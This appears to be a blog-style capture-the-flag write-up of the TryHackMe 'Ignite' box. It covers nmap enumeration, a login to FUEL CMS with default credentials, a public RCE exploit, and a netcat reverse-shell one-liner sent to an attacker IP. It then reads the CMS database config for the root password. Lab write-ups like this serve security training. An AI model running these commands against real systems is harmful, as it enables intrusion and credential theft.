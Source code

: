 # Ignite | THM
### Difficulty level: Easy
--------------------------------

Firstly, I’ll start with nmap tool for enumeration.
```bash
<nmap -sC -sV <ip-address>>
```

Results:

![image](https://miro.medium.com/v2/resize:fit:828/format:webp/1*FMjt7TYKLOmhgXswDFD_GQ.png)

There is 1 open port. This is http port and we get a http title : “welcome to FUEL CMS”.
this title telling us about which CMS this site is using.
In addition there is another header that can help us :
http-robots.txt and /fuel/.
I’ll check robots.txt file and I can find fuel directory.
when I connected to this dir there is a login page from Fuel CMS.

![image](https://miro.medium.com/v2/resize:fit:720/format:webp/1*FXi2VtDQeo_SLao1OSN27Q.png)

I don't know what to do yet but so i will try to use the default credentials. 
{admin:admin} and I found myself inside the system.

![image](https://miro.medium.com/v2/resize:fit:720/format:webp/1*8iVZ8ULKGNBmXJwe2-KBpg.png)

I checked for an input that I can inject there a code that will give me php reverse-shell.
I didn't find any. so it's time to search 
vulnerabilities in FUEL CMS in Metasploit. look what I found!
there is RCE vulnerability so I'm going to download it to my kali.

![image](https://miro.medium.com/v2/resize:fit:828/format:webp/1*sjjHCrIoPaaRJD-dJm3brA.png)

![image](https://miro.medium.com/v2/resize:fit:828/format:webp/1*h_ZhDg1KviwTTAWV4OKeIw.png)

give it permissions.
```bash
chmod 777 50477.py
```
Started to read that code to understand the way it works and how to exploit with it.

![image](https://miro.medium.com/v2/resize:fit:828/format:webp/1*oJkyyZbOBbvy2PyMtklD2w.png)

I got type of connection and a type of shell. in that shell I tried to
execute some commands and ‘ls’ was the command that works.
so lets try to execute a reverse shell code for a real connection.
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <attacker-ip><port> >/tmp/f
```

and a netcat listener on our machine on the same port.

```bash
nc -lnvp 2222
```
then we got the wanted reverse shell.

![image](https://miro.medium.com/v2/resize:fit:828/format:webp/1*sei0zW2PoLyl5t28_uw3wg.png)

So the first command will be:
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```
This command gives us a better shell and comfortable to use.
next command will be ‘ls’ and flag.txt found!!!

![image](https://miro.medium.com/v2/resize:fit:828/format:webp/1*tecoWBPdkdAc1DrpO7mMPA.png)

now I'm going back to the first page that appeared in this CTF and there
I can see where the database is located.

![image](https://miro.medium.com/v2/resize:fit:828/format:webp/1*jA8lUTk4obErtyeiPhJ0fQ.png)

```bash
cat /var/www/html/fuel/application/config/database.php
```

Results:

![image](https://miro.medium.com/v2/resize:fit:786/format:webp/1*27WqwtFZz_1O6bI3E3yfzg.png)

So, It's time to root.
```bash
su root
```

Enter the password and move to /root dir and there is the root.txt flag!

![image](https://miro.medium.com/v2/resize:fit:786/format:webp/1*OiJYtpCw6ZhYjan2tPm9MQ.png)

The end.

Happy Hacking!

**Written by Alon Presman, Penetration Tester and Ethical Hacker.**




























